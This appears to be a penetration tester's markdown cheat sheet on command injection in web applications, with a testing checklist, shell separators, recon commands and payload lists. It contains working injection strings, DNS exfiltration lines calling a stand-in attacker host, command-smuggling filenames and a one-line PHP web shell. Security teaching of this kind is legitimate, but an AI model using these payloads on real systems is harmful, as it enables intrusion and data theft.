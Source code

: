 ```yaml
---
title: "Command Injection"
layout: notes
tags:
  - webapp
  - methodology
  - command-injection
  - FI_http-headers
  - FI_parameters
  - FI_user-input
  - Co_privilege-escalation
  - Co_ssrf
  - Co_dos
  - Co_rce
---
```

## Summary

In legacy or poorly setup applications user input might be directly used to run scripts or commands. The functionality to read a file could be implemented as setting a variable to a parameter then running cat on the file. Determining the ability to inject commands is a simple fuzz away and this vulnerability can be leveraged to access other resources or even compromise production servers. 

## Methodology

When trying to look for Command Injection try/ask the following:
- [ ] **What is the backend doing for this functionality?**
	- [ ] think what OS and server software is performing tasks
- [ ] **Could this be a legacy feature?**
- [ ] **Is there any user input that could be a flag or option for a command?**
- [ ] try adding a command end character `;` and checking results
- [ ] try using a list of dangerous functions and methods based on framework
	- [ ] exec() in PHP, eval in Node.js etc.
- [ ] try escape characters and ping to fuzz for time based command injection
- [ ] try encoding or command splitting to bypass filters

IF COMMAND INJECTION IS FOUND  
- [ ] think about what this injection point has access to
- [ ] find a command with more impact or an exploit chain
- [ ] try nslookup with \`whoami\`.domain.com to test for OOB command injection

## Capabilities

RCE  
DoS  
Data Breach  
Privilege Escalation  

## Found In

Parameters  
User Input  
HTTP Headers  

## Tools/Examples

Try to end the previous statement and/or comment out the rest
```
; ls -al
; ls -al #
```

#### Escape Characters
General: `    &    &&    |    ||   $() `
Unix: `    ;    \n    0x0a    ${}    backticks    `

| Purpose of command    | Linux         | Windows         |
| --------------------- | ------------- | --------------- |
| Name of current user  | `whoami`      | `whoami`        |
| Operating system      | `uname -a`    | `ver`           |
| Network configuration | `ifconfig`    | `ipconfig /all` |
| Network connections   | `netstat -an` | `netstat -an`   |
| Running processes     | `ps -ef`      | `tasklist`      |

#### nslookup

Can add commands to the start of DNS queries if others are blocked
```
nslookup `id`.domain.com
```

#### file uploads

```
`whoami`.pdf
`curl domain`.pdf
```

#### Quick Samples
```
& ping -c 10 127.0.0.1 &
&&ping -c 10 127.0.0.1&&
||ping -c 10 127.0.0.1||
|ping -c 10 127.0.0.1|
```

```
&whoami>/var/www/static/whoami.txt&
&&whoami>/var/www/static/whoami.txt&&
|whoami>/var/www/static/whoami.txt|
||whoami>/var/www/images/whoami.txt||
```

```
& nslookup kgji2ohoyw.web-attacker.com &
&& nslookup kgji2ohoyw.web-attacker.com &&
| nslookup kgji2ohoyw.web-attacker.com |
|| nslookup kgji2ohoyw.web-attacker.com ||

& nslookup `whoami`.web-attacker.com &
&& nslookup `whoami`.web-attacker.com &&
| nslookup `whoami`.web-attacker.com |
|| nslookup `whoami`.web-attacker.com ||
```

```
<?=`$_GET[0]`?>
```

